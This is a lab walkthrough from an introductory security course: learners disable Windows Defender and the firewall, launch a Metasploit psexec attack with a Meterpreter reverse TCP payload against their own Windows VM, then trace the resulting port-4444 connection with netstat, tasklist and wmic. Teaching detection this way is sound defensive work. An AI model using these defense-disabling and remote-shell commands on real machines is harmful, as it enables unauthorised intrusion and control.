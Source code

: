 ![image](https://github.com/user-attachments/assets/068fae26-6e8f-402f-ad69-63a4e6a1f59e)

# Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a **Kali** instance by clicking the **Kali** logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

>[!NOTE]
>
>If you get red errors that say 
><pre>A general error occurred that is not covered by a more specific error code.</pre> 
>
>That is OK!  It means **Defender** was already disabled. </br>
>We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Next, lets ensure the firewall is disabled.

<pre>netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

>[!NOTE]
>
>That is a very bad password. </br> Come up with something better. But, please remember it.

Now that we disabled **Windows Defender**, we need to get our windows IP address for later.

Within the Powershell window, please run the following command:

<pre>ipconfig</pre>

>[!IMPORTANT]
>
>Please remember that your Windows IP address is not the same as your ADHD Linux System IP address. 
>
>In this instance, we need our **Windows IP**, so write it down for later!

Now head back to your **Kali** terminal.

We need to gain root access. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the **Metasploit** handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!

When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the **RHOST IP** for the Windows system by using the following command:

<pre>set RHOST 10.10.1.209</pre>

>[!NOTE]
>
>**Remember, your IP will be different!**


![](attachments/windowscli_sets.png)

Next, we need to set the **SMB** username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

>[!NOTE]
>
>This will be the password you set earlier. </br>
>Hopefully your password is different than mine!

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Go ahead an open an instance of **Windows PowerShell**.

![](attachments/OpeningPowershell.png)

Run the following command:

<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run **"-f"** with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

Now we see our last connection with the **port 4444**.

Let's get the Process ID **(PID)** from the output of our **"netstat -naob"** command that we ran earlier so we can dig a little deeper.

>[!TIP]
>
>Look for port **4444** and **[powershell.exe]**

![](attachments/windowscli_pid.png)

We will start with tasklist  

<pre>tasklist /m /fi "pid eq [PID]"</pre>

>[!NOTE]
>
>**YOUR PID WILL BE DIFFERENT!**

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

<pre>wmic process where processid=[PID] get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

<pre>wmic process get name,parentprocessid,processid | select-string [PID]</pre>

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process

1. We found its parent process ID.  

2. We did a search on that process ID.  

3. As you can see above, it was launched by the cmd.exe process.  

4. Note that the search we just did may turn up some other things launched by the command line as well.

***                                                                 

<b><i>Continuing the course? </br>[Next Lab](/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)</i></b>

<b><i>Want to go back? </br>[Previous Lab](/IntroClassFiles/Tools/IntroClass/WebLogReview/WebLogReview.md)</i></b>

<b><i>Looking for a different lab? </br>[Lab Directory](/IntroClassFiles/navigation.md)</i></b>

***Finished with the Labs?***

Please be sure to destroy the lab environment!

[Click here for instructions on how to destroy the Lab Environment](/IntroClassFiles/Tools/IntroClass/LabDestruction/labdestruction.md)

---







 


